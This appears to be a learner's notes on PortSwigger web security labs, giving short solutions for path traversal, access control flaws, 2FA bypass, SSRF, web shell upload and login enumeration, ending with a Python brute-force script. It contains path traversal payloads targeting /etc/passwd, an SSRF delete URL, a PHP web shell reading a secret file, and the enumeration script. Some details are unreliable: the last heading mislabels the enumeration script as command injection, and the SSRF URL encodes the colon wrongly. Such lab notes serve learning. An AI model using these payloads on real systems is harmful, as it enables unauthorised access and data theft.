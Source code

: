 ## Reading arbitrary files via path traversal

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`  
`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`

## Lab: File path traversal, simple case
`/image?filename=../../../etc/passwd`

## Lab: Unprotected admin functionality
`/robots.txt`

## Lab: Unprotected admin functionality with unpredictable URL
Admin URL in `<script>` tag.

## Lab: User role controlled by request parameter
Change Cookie: `Admin=true`

## Lab: User ID controlled by request parameter, with unpredictable user IDs

1. Find a post of Carlos;
2. Find Carlos' UID in html;
3. Change id cookie to Carlos' UID


## Lab: User ID controlled by request parameter with password disclosure
1. Login in Wiener's account;
2. Open MyAccount page with cookie `id=administrator`;
3. Get administrator's password;
4. Delete Carlos.

## Lab: Username enumeration via different responses
Intrude. (wihout Pro filter is really shxxxxt.)


## Lab: 2FA simple bypass
Login with password, just skip the 2FA page (change URL).


## Lab: Basic SSRF against the local server

Intercept Stock check request and change the stockApi to `http%4A%2F%2Flocalhost%2Fadmin%2Fdelete%3Fusername%3Dcarlos`

## Lab: Basic SSRF against another back-end system
1. First iterate stockAPI to find the admin url
2. check `Lab: Basic SSRF against the local server`

## Lab: Remote code execution via web shell upload
1. Upload a php file contains:  
    `<?php echo file_get_contents('/home/carlos/secret'); ?>`
2. Visit `https://host/files/avatars/filename.php`.


## Web shell upload via Content-Type restriction bypass
Basically same as `Lab: Remote code execution via web shell upload` just change the php file's Content-Type to image/jpeg.

## Lab: OS command injection, simple case

- First check with username is valid. In this lab, different message is gived, check response text length.
- Brute force password. (this lab is easy, without REAL account lock.)

```python
usf = open("usernames", "r")
usernames = usf.readlines() 

import requests

url = 'https://1a7c0051045b95cf81b74d4c0034003f.web-security-academy.net/login'
for user in usernames:
    for i in range(5):
        data = {
            'username': user[:-1], # IMPORTANT!! [:-1]! WITHOUT breaklines.
            'password': 'whatever'
        }
        response = requests.post(url, data=data)

        print(f"Status Code: {response.status_code}", end='. ')
        # print(f"Response Content: {response.text}")
        # print(user, end='')
        print(len(response.text), end=".")
        if ("Invalid username or password." in response.text):
            # print("Invalid username or password")
            print(user)
        elif ("You have made too many incorrect login attempts" in response.text):
            print("Also Found it: ", user)
        else:
            print("Found it: ", user)
```